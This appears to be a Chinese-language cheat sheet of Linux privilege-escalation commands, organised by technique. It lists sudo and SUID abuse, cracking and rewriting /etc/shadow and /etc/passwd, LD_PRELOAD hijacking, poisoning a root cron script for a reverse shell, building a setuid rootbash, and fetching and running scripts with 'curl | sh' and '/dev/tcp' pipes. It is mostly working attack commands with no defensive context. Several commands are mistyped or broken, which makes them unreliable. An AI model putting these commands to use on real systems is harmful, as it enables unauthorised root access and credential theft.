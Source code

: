 ### 查看当前用户
    cl

### 查看当前目录
    pwd

### 枚举
    sudo -l

### 切换用户
    sudo -u jack /bin/bash
    sudo -u#10000 /bin/bash

### 修改交互更好的bash环境
    python -c "import pty;pty.spawn('/bin/bash')"

### 搜索
    grep -R -i pass /home/* 2>dev/null

### sudo -u提权
    sudo -V | grep version 
    'Sudo version 1.7.4p4'
    sudo -u#-1 /bin/bash

### sudo apt(apt-get)提权
    sudo apt update -o APT::Update::Pre-Invoke::=/bin/bash

### sudo apache2提权
    sudo apache2 -f /etc/shadow
    vim shadow_root
    sudo john shadow_root --wordlist=/usr/share/wordlists/rockyou.txt

### sudo ash提权
    sudo ash

### sudo awk提权
    sudo awk 'BEGIN {system("/bin/bash)}'

### shadow 可读可写
    ls -liah /etc/shadow
    cat /etc/passwd
    cat etc/shadow
    cat /etc/shadow | grep ':\$'
    vim hash
    cat vim
    sudo john  --wordlist=/usr/share/wordlists/rockyou.txt hash

    mkpasswd -m sha512 admin
    vim /etc/shadow 

### passwd 可读可写
    openssl passwd admin
    vim etc/passwd

### sudo环境变量提权
    'env_reset,env_keep+=LD_PRELOAD'
    vim 共享库
    编译
    sudo LD_PRELOAD=/home/user/共享库 find

### 自动任务提权
    cat /etc/crontab

    '***** root overwrite.sh'
    '***** root /usr/local/bin/compress.sh'

    locate overwrite.sh
    ls -lish /../../overwrite.sh
    cat /../../overwrite.sh

    kali@kali:sudo nc -lvnp 4444

    vim /../../overwrite.sh
    反弹shell
    ----------------------------
    vim overwrite.sh
    提权脚本
    /tmp/rootbash -p

### suid提权
    find / -perm -u=s -type f 2>dev/null

    /usr/local/bin/suid-so
    usr/local/bin/suid-env
    usr/local/bin/suid-env2

    searchsploit xxx

### 密码和密钥历史文件提权
    history
    cat ～/.*history | less
    ls -liah
    cat .viminfo
    cat myvpn.ovpn

    ssh

### 备份shadow/passwd
    cp /etc/shadow /tmp/shadow.bak
    cp /etc/passwd /tmp/passwd.bak

### 查看历史记录
    history

### 内核提权
    uname -a
    '内核版本过低'
    curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
##### 无curl
    wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
    sudo nc -lvnp 80 < linpeas.sh
    cat < /dev/tcp/192.168.204.129/80 | sh

### doas

### 提取
    cat pass | awk -F' ' '{print $2}'          

### mysql提权思路
    mysql -u root
    show databases;
    use mysql
    show tables;
    select * from user;
    describe user;


    chomd 600 file

    locate password | more
    find / -name root_key 2> /dev/null

### 提权脚本
    "#! /bin/bash

    cp /bin/bash /tmp/rootbash
    chomd +xs /tmp/rootbash"

    /tmp/rootbash -p

### 提权大全
    https://gtfobins.github.io/
